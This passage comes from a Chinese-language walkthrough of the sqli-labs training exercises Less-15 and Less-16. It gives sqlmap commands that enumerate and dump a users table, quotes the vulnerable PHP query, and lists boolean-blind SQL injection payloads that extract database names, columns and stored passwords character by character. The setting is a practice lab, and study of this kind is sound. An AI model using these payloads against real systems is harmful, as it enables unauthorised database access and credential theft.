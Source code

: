 ```bash

猜解字段内容
admin' or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+
第一个字符是D ...
```



sqlmap

```bash
探测注入点
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch
爆破数据库名
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch --current-db
爆破数据表
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch -D security --tables 
最后脱库
sqlmap -u http://192.168.31.193/Less-15/ --data="uname=admin&passwd=admin" --batch -D security -T users --dump

```

# Pass16

```bash
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
$result=mysql_query($sql);
```


在Less15的原题上将闭合方式变成了") 

布尔盲注

```bash
判断数据库名称长度
admin") or length(database())=8--+
显示蓝色图片，说明数据库长度为8

逐一猜解数据库名称
admin") or ascii(substr(database(),1,1))=115--+
第一个字符是s  ...

猜解数据表名称
admin") or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>101 --+
第一个字符是e ...

猜解字段名称
admin") or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+
第一个字符是i ...

猜解字段内容
admin") or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+
第一个字符是D ...
```
